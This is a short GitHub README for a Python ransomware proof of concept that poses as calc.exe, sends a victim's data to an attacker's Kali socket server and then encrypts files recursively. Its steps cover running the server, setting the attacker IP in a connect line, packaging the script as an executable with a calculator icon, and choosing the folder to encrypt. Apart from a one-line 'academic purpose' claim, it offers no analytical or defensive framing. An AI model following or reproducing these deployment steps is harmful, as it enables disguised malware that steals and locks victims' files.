 # NextGen-Ransomeware-Poc-Python [RaaS]
A simple python script pretending calc.exe to trigger user execute a ransomeware and sent data before encrypt.
Deployed on Windows environment.

## **Academic Purpose Only**

# Flow #
- Execute socket_server.py on your Kali
- Modify raas.py lines 34 client_socket.connect(("Kali IP", 5000))
- Run autopytoexe convertor the program as a exe
- Replace Icon to calculator.ico
- Output as a exectuable file

# Change infecting area #
- Lines 29 on raas.py Filenames = glob.glob("./Path You Want to encrypt/*")
- **Be careful encryption will recursively in all subfolder**
